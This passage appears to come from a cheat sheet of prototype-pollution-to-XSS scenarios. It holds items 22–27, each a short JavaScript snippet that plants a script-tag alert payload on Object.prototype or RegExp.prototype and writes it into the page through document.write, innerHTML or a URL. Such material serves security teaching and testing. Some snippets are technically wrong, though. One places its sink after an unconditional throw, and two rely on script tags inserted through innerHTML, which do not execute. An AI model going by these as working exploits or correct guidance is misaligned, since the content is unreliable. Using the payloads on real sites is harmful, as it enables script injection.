 
### 22. Polluted LocalStorage Wrapper
**Scenario**: Polluted property affects localStorage rendering.
```javascript
Object.prototype.value = '<script>alert("XSS")</script>';
const storage = {};
localStorage.setItem('key', storage.value);
document.write(localStorage.getItem('key')); // XSS
```

---

### 23. Polluted URL Parameter
**Scenario**: Polluted property used in URL construction.
```javascript
Object.prototype.search = '"><script>alert("XSS")</script>';
const params = {};
window.location = `/page${params.search}`; // XSS if reflected
```

---

### 24. Polluted Cookie Parsing
**Scenario**: Polluted property in cookie parsing leads to XSS.
```javascript
Object.prototype.cookie = 'data=<script>alert("XSS")</script>';
const cookies = {};
document.write(cookies.cookie); // XSS
```

---

### 25. Polluted Error Message
**Scenario**: Polluted error property rendered in DOM.
```javascript
Object.prototype.message = '<script>alert("XSS")</script>';
const err = {};
throw err;
document.body.innerHTML = err.message; // XSS if caught and displayed
```

---

### 26. Polluted Promise Rejection
**Scenario**: Polluted reason in Promise rejection rendered unsafely.
```javascript
Object.prototype.reason = '<script>alert("XSS")</script>';
const p = Promise.reject({});
p.catch(e => document.write(e.reason)); // XSS
```

---

### 27. Polluted RegExp Prototype
**Scenario**: Polluted RegExp method affects replacement.
```javascript
RegExp.prototype.exec = () => ['<script>alert("XSS")</script>'];
const re = /test/;
document.body.innerHTML = 'test'.replace(re, re.exec()[0]); // XSS
```

---